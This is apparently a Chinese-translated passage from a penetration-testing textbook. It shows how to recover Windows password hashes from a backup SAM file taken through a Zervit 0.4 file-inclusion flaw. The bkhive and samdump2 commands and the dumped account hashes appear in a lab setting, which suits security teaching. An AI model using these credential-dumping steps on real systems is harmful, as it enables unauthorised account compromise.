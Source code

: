 ### 从 Windows SAM 文件中恢复密码哈希

SAM 文件存储的是 Windows 的哈希密码。虽然我们可以通过 Meterpreter 从 Windows XP 系统中导出密码哈希（如前所示），但有时你只能获取到 SAM 文件。

我们未能通过 Zervit 0.4 漏洞访问到主 SAM 文件，但我们成功地从 *C:\Windows\repair* 目录中下载了一个备份副本，利用的是本地文件包含漏洞。但是当我们尝试读取 SAM 文件时（如 示例 9-9 所示），我们没有看到任何密码哈希。

示例 9-9. 查看 SAM 文件

```
root@bt:~# **cat sam**
regf     P P5gfhbinDDDDnk,DuDDDDD DDDD DDDDDDDDDxDDDDSAMXDDDskx x D DpDμ\μ?
?   μ μ
                                  DDDDnk LDDDD DBDDDD Dx DDDDDSAMDDDDskxx7d
DHXμ4μ?          DDDDvk D CPDDD D  μDxDμD0Dμ    DμDD 4μ1   ?         DDDDD
DDDDlf   SAMDDDDnk DuDDDDD   H#DDDD Px DDDDDomainsDDDDvkDDDDD8lf DDomaDDDDnk
\DDJDDD DDDDDD0x DDDD( AccountDDDDvk DD
--snip--
```

SAM 文件经过了混淆，因为 Windows Syskey 工具使用 128 位的 Rivest Cipher 4 (RC4) 算法加密 SAM 文件中的密码哈希值，以提供额外的安全性。即使攻击者或渗透测试人员能够访问 SAM 文件，仍需要做一些工作才能恢复密码哈希。具体来说，我们需要一个密钥来反向解密这些加密的哈希值。

Syskey 工具的加密密钥叫做 *bootkey*，并存储在 Windows SYSTEM 文件中。你可以在 *C:\Windows\repair* 目录下找到 SYSTEM 文件的副本，这个目录也是我们找到备份 SAM 文件的地方。我们可以使用 Kali 中的 Bkhive 工具从 SYSTEM 文件中提取 Syskey 工具的 bootkey，这样我们就能解密哈希值，具体操作请参考 示例 9-10。

示例 9-10. 使用 Bkhive 提取 bootkey

```
root@kali:~# **bkhive system xpkey.txt**
bkhive 1.1.1 by Objectif Securite
http://www.objectif-securite.ch
original author: ncuomo@studenti.unina.it

Root Key : $$$PROTO.HIV
Default ControlSet: 001
Bootkey: 015777ab072930b22020b999557f42d5
```

在这里，我们使用 Bkhive 通过将 SYSTEM 文件*system*（即我们通过 Zervit 0.4 目录遍历从修复目录下载的文件）作为第一个参数并将文件提取到*xpkey.txt*来提取启动密钥。一旦获得启动密钥，我们就可以使用 Samdump2 从 SAM 文件中检索密码哈希，如示例 9-11 所示。将 SAM 文件的位置和 Bkhive 提取的启动密钥传递给 Samdump2，Samdump2 将使用启动密钥解密哈希。

示例 9-11. 使用 Samdump2 恢复 Windows 哈希

```
root@kali:~# **samdump2 sam xpkey.txt**
samdump2 1.1.1 by Objectif Securite
http://www.objectif-securite.ch
original author: ncuomo@studenti.unina.it

Root Key : SAM
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:df40c521ef762bb7b9767e30ff112a3c:938ce7d211ea733373bcfc3e6fbb3641:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:bc48640a0fcb55c6ba1c9955080a52a8:::
```
